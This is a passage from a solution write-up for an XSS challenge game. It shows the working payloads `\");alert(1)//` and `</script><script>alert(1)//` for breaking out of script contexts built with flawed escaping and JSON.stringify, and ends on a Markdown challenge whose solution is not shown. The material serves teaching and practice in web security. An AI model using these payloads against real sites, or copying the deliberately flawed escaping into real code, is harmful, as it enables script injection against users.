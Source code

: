 Nevetheless, `\` is not escaped, so `\"` turns into `\\"`. As a result, the `\\` morphs into a escaped backslash. The trailing double-quote broke away and can be used to close the script tag again!

Payload (14 bytes): **`\");alert(1)//`**

Result:

```htmlmixed
<script>console.log("\\");alert(1)//");</script>
```

## JSON

### Problem

Try to bypass `JSON.stringify`.

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

### Solution

`JSON.stringify` escapes both `"` and `\`, but thankfully, it does not escape `'`, `/`, `<` and `>`.

Therefore, it's possible to forcibly finish the current script block with `</script>` and starting a new script block. This technique works because the browser will first parses the HTML to identify the tags (including script tags) *before* passing the JavaScript to the javascript engine.

Eventually, you may append `<script>alert(1)//` to the end of your payload to form another script block and execute `alert(1)`.

* **`</script><script>alert(1)//`**

Result:

```htmlmixed
<script>console.log("</script><script>alert(1)//");</script>
```

Interestingly, you may solve the previous two challenges ([Warmup](#Warmup) & [Adobe](#Adobe)) using the same technique.

## Markdown

### Problem

```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
